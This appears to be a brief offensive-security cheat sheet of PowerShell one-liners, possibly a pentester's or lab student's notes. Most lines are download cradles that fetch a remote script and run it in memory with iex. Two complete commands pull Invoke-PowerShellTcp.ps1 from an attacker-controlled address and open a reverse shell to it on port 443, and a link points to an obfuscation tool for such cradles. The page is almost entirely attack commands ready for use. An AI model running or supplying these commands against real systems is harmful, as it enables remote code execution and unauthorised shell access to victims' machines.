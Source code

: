 ## Run a remotely hosted script into memory
`iex (iwr http://<webserver/script.ps1 -UseBasicParsing`

## Download file from remote host
`iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')`

 - Downloades InvokePowerShellTCP.ps1 and then runs it to connect to a listener on Attacker machine
`powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/Invoke-PowerShellTcp.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.X -Port 443`

`powershell.exe -c iex (iwr http://172.16.100.X/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.X -Port 443`

## Resource:
https://github.com/danielbohannon/Invoke-CradleCrafter